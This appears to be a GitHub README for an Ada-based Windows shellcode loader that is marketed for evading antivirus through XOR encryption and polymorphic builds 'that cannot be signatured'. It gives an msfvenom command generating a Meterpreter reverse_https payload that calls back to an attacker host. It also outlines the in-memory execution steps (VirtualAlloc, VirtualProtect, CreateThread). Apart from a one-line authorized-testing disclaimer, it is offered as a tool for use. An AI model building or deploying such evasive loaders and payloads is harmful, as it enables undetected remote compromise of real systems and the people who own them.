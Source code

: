 # Ada Shellcode Loader

A simple shellcode loader written in Ada for Windows x64.

## Features

- XOR encryption with random key per build
- Polymorphic compilation - every build is unique
- Written in Ada (uncommon language, low detection rates)
- Compiles to native Windows executable
- No external dependencies

## Requirements

- GNAT Ada compiler
- MinGW-w64 for cross-compilation
- Python 3

## Installation

### Automated Installation
```bash
chmod +x install.sh
./install.sh
```

Supports:
- Debian/Ubuntu
- RedHat/CentOS/Fedora
- Arch Linux
- macOS

### Manual Installation

**Debian/Ubuntu:**
```bash
sudo apt update
sudo apt install gnat gnat-mingw-w64 python3
```

**Fedora:**
```bash
sudo dnf install gcc-gnat mingw64-gcc-gnat python3
```

**Arch:**
```bash
sudo pacman -S gcc-ada mingw-w64-gcc python
```

**macOS:**
```bash
brew install gcc mingw-w64
```

## Usage
```bash
# Generate shellcode (raw format, x64)
# Example: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f raw -o shellcode.bin

# Build
python3 build.py shellcode.bin

# Output: loader.exe
```

## Polymorphic Builds

Every compilation generates a completely unique binary:
- Randomized function and variable names (30+ identifiers)
- Random XOR encryption key
- Random timing delays
- Unique binary hash every time

This ensures the loader cannot be signatured, even with widespread use.

## How It Works

1. `build.py` generates unique polymorphic code structure
2. Encrypts shellcode with a random XOR key
3. Compiles to Windows executable with randomized identifiers
4. At runtime, loader decrypts and executes shellcode in memory

## Technical Details

- **Encryption**: XOR with position-dependent key
- **Memory**: VirtualAlloc (RW) → VirtualProtect (RX)
- **Execution**: CreateThread
- **Language**: Ada 2012
- **Polymorphism**: 30+ randomized identifiers per build

## Notes

This is for authorized security testing only. Ensure you have proper authorization before use.


